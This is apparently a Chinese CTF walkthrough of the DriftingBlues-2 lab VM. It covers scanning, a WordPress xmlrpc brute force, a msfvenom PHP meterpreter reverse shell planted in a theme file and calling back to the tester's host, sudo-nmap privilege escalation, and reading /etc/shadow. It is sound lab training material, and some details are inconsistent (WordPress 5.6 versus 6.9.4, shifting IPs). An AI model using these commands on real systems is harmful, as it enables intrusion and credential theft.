# 目标

get **flags**

这台靶机有2个IP地址：（靶机有重装）
- 192.168.64.26
- 192.168.64.27

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn --max-rate=10000 192.168.64.0/24
```


## 1.2 端口扫描
**使用TCP SYN扫描**
```shell
nmap -sS -sV --max-rate=10000 -p- 192.168.64.26 -oA nmap-scan/syn-scan
```


**使用TCP全连接扫描**
```shell
nmap -sT -sV --max-rate=10000 -p- 192.168.64.26 -oA nmap-scan/tcp-scan
```


**使用UDP扫描**
```shell
nmap -sU -sV --max-rate=10000 --top-ports=100 192.168.64.26 -oA nmap-scan/udp-scan
```


**使用nmap默认漏洞脚本扫描已发现的端口**
```shell
nmap -sV -sC -O -p21,22,80,2 --max-rate=10000 192.168.64.26 -oA nmap-scan/vuln-scan
```


## 1.3 ftp获取信息
上面扫描到ftp有匿名登陆的情况，有一个`secret.jpg`图片

应该就是有隐写。解读一下，
```shell

```


## 1.4 浏览器获取信息
**访问`http://192.168.64.26:80`**


**网站目录/文件扫描**
```shell
ffuf -u http://192.168.64.26:80/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -e .php,.html,.git,.zip,.txt -p 0.1-0.3 -rate 20 -t 20 -c -ac
```


```shell
gobuster dir -u http://192.168.64.26:80 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip,git,txt,html
```


**访问`http://192.168.64.26:80/blog`**

这应该是一个wordpress CMS. (在本机的 */etc/hosts* 里面添加配置 `192.168.64.27  driftingblues.box`, 因为打开页面源码你能看到很多资源都是来自 *driftingblues.box* 这个域名)

```shell
whatweb http://192.168.64.26:80/blog
```

这个wordpress版本是5.6，

**搜索一下当前版本的漏洞**
```shell
searchsploit wordpress 5.6
```

搜索一下是否有上面的一些Plugin,
```shell
whatweb http://192.168.64.26:80/blog --plugins="Social Slider,Rest Google Maps,iThemes Security,Flash Gallery,DZS Videogallery"
```

没有上述的Plugin。🌚

**有一个搜索框，可能有SQL注入**
```shell
sqlmap --url='http://192.168.64.26/blog/?s=1' --dbs
```
没发现有注入的可能。🌚

**扫描一遍wordpress**
```shell
wpscan --url='http://192.168.64.26/blog' --enumerate='u,cb,at,p' --plugins-detection='passive' -o cms/wordpress.txt
```
里面有信息，
```
[+] URL: http://192.168.64.26/blog/ [192.168.64.26]
[+] Started: Wed Apr 15 03:29:15 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.64.26/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.64.26/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.64.26/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.64.26/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.4 identified (Latest, released on 2026-03-11).
 | Found By: Meta Generator (Passive Detection)
 |  - http://192.168.64.26/blog/, Match: 'WordPress 6.9.4'
 | Confirmed By: Atom Generator (Aggressive Detection)
 |  - http://192.168.64.26/blog/index.php/feed/atom/, <generator uri="https://wordpress.org/" version="6.9.4">WordPress</generator>

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating All Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:42 <=====================================> (31873 / 31873) 100.00% Time: 00:00:42
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:
[+] twentyeleven
[+] twentyfifteen
[+] twentyfourteen
[+] twentynineteen
[+] twentyseventeen
[+] twentysixteen
[+] twentyten
[+] twentythirteen
[+] twentytwelve
[+] twentytwenty
[+] twentytwentyfive
[+] twentytwentyfour
[+] twentytwentyone
[+] twentytwentythree

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==========================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <===========================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] albert
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Apr 15 03:30:07 2026
[+] Requests Done: 32119
[+] Cached Requests: 36
[+] Data Sent: 8.551 MB
[+] Data Received: 5.55 MB
[+] Memory used: 355.492 MB
[+] Elapsed time: 00:00:51
```
开放了`xml-rpc`，可以调用远程函数（为暴力破解提供可能）；有很多主题，有用户`albert`.
wordpress里面默认的登陆页面在`http://192.168.64.26/blog/wp-login.php`.

**使用rockyou.txt直接进行暴力破解**
```shell
wpscan --url http://192.168.64.27/blog -U albert  -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc
```
可以破解得到
- username: `albert`
- password: `scotland1`

---

# 2.进入系统
直接去登陆wordpress，也可以去尝试登陆一下ftp和ssh，都登不上。

wordpress当前使用的theme

去编辑theme配置文件的时候，不要选择当前正在使用的theme主题配置文件，去使用其他的未使用的主题。

我选择了*Twenty Eleven*.

**使用msfvenom生成php反弹连接**
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=1025 -f raw -o reverse_tcp.php
```
将有效内容粘贴进Theme Footer这个php文件里面。然后要去激活/使用这个主题。

**kali使用msf监听**
```shell
msf > use exploit/multi/handler
msf() > set lhost 192.168.64.2
msf() > set lport 1025
msf() > set payload php/meterpreter/reverse_tcp
msf() > run
```

刷新界面，建立反弹连接。


---

# 3.系统提权

**查看/etc/passwd**
```shell
cat /etc/passwd | grep sh
```


**查看有哪些有用的用户及文件**
去freddie用户的家目录里面查看，可以发现有ssh登陆，里面有一对公钥与私钥，

竟然发现私钥我们是有查看能力的，可以试试通过密钥直接不用密码登陆freddie用户。


```shell
sudo -l
```


**使用GTOFBins网站查询➡️提权**





**1.使用nmap交互式**
使用nmap的交互式提权是不行的，版本不匹配。

**2.使用权限继承方式**
```shell
echo 'os.execute("/bin/bash")' > 123.txt
sudo /usr/bin/nmap --script=123.txt
```

刚进入root用户的时候交互感觉会有些问题，可以使用下面的python代码提升交互性：
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**3.使用file read能力**
```shell
sudo /usr/bin/nmap -iL /etc/shadow
```
拿到root用户的密码哈希，
```
root:$6$GFEPutgi.1nJ4e5p$1qX/vWP1PCL3cGTDWNC5PUkXxTVSRuYLeIvbITXtxdbdPQDCKl.EzrzcynCPtfDbiinerU4Ae4S7XY3TLXZTB1:18613:0:99999:7:::
```
使用john来破解。（我这里没跑，不知道能不能跑出来）

**4.使用file write能力**
nmap基本无法做到纯净写入，在考虑修改/etc/pssswd时需要注意。

---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro `32G 512G`
- `macOS 14.8.5`
- `UTM虚拟机平台`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机driftingblues-2: 
